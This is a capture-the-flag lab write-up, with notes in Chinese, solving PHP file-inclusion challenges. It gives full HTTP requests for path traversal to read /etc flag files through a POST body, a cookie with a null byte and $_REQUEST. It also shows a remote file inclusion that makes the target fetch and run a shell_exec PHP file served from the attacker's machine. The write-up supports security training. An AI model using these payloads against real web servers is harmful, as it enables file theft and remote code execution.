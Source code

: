 # Challenge
## Capture Flag1 at /etc/flag1
### 1. Capture Flag1 at /etc/flag1
```sh
POST /challenges/chall1.php HTTP/1.1
Host: 10.10.212.172
Content-Type: application/x-www-form-urlencoded
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.212.172/challenges/chall1.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 26

file=../../../../etc/flag1
```

注意点:
* GET 请求修改为 POST 时，请求携带参数 `file` 要放在 Request body 内，不要放在 URL 中(原因：这是 HTTP 协议标准的约定，POST 用于提交数据，因此应放在请求体中，否则服务端很可能不会接收或解析 URL 中的参数)
* GET 请求修改为 POST 时，要添加 `Content-Type: application/x-www-form-urlencoded`(原因：这是标准 HTML 表单 POST 的默认编码方式。服务器使用这个头部信息来解析请求体的数据格式，否则可能无法正确读取 `file=` 这个字段)
* .目录跳转层级计算:
    ```sh
    ../     → /var/www/html/challenges/      → /var/www/html
    ../     → /var/www/html                  → /var/www
    ../     → /var/www                       → /
    ../     → /                              → done
    /etc/flag1 → ✅ 找到了
    ```


### 2. Capture Flag2 at /etc/flag2
```sh
GET /challenges/chall2.php HTTP/1.1
Host: 10.10.212.172
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.212.172/challenges/index.php
Accept-Encoding: gzip, deflate, br
Cookie: THM=../../../../etc/flag2%00
Connection: keep-alive
```

注意点:
* 在 `PHP ≤ 5.3` 中，`%00` 可能被当作 `null` 字节，成功触发路径截断，特别是在文件函数如 `include()`、`fopen()`、`file_get_contents()` 中


### ⭐️3. Capture Flag3 at /etc/flag3
```sh
POST /challenges/chall3.php HTTP/1.1
Host: 10.10.219.179
Content-Type: application/x-www-form-urlencoded
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.219.179/challenges/index.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 29

file=../../../../etc/flag3%00
```

提示&注意点:
* [Hint #1] Not everything is filtered! 
* [Hint #2] The website uses $_REQUESTS to accept HTTP requests. Do research to understand it and what it accepts!
* `$_REQUEST` 是 PHP 提供的一个超全局变量，它可以自动收集来自下述三种来源的数据，值得注意的是如果你无法看到源代码，则只能策略来“`盲测`”是否使用了 $_REQUEST：
    * $_GET（URL 参数）
    * $_POST（表单或 Body 数据）
    * $_COOKIE（浏览器中的 Cookie）


### 4. Gain RCE in Lab #Playground /playground.php with RFI to execute the hostname command. What is the output?
```sh
GET /playground.php?file=http://10.14.103.246:8888/malicious.php HTTP/1.1
Host: 10.10.212.172
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.212.172/playground.php?file=http%3A%2F%2F10.14.103.246%3A8888%2Fmalicious.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

```sh
# malicious.php
<?php
echo shell_exec('hostname');
?>
```

注意点:
* .利用 `python3 -m http.server port_number` 在本地存放 `malicious.php` 的文件夹下搭建服务器
* .使用连接 `OpenVPN` 后其提供的公网 IP